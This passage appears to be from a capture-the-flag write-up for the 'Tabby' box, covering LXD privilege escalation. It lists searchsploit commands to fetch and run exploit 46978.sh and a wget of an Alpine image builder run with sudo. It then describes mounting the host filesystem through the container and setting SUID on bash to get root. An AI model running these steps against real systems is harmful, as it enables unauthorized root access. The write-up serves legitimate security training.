 > **Attacker Machine**:

```bash
searchsploit lxd
searchsploit -m linux/local/46978.sh
mv 46978.sh lxd_exploit.sh
chmod +x lxd_exploit.sh
./lxd_exploit.sh

cat lxd_exploit.sh | head -n 12

wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
sudo bash build-alpine
nvim lxd_exploit.sh
# Delete:
# && lxc image list
```

<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_53.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_54.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_55.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_56.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_57.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_58.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_59.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

It is time to transfer both the container and the exploit to the victim machine, I give execution permissions to the latter and run it, but an error occurs, the `lxc` binary has not been found. If I see the **PATH**, all the paths of the system binaries are not covered, I export my **PATH** to the host I am trying to breach and ready, the exploit works correctly, I can now access the mounted volume in the **`/mnt`** directory and see the last flag. I can even grant **SUID** permissions to the `bash`, then I exit the container and if I run the `bash` with permissions of its owner, I get a shell as the `root` user. Rooted and finished box!
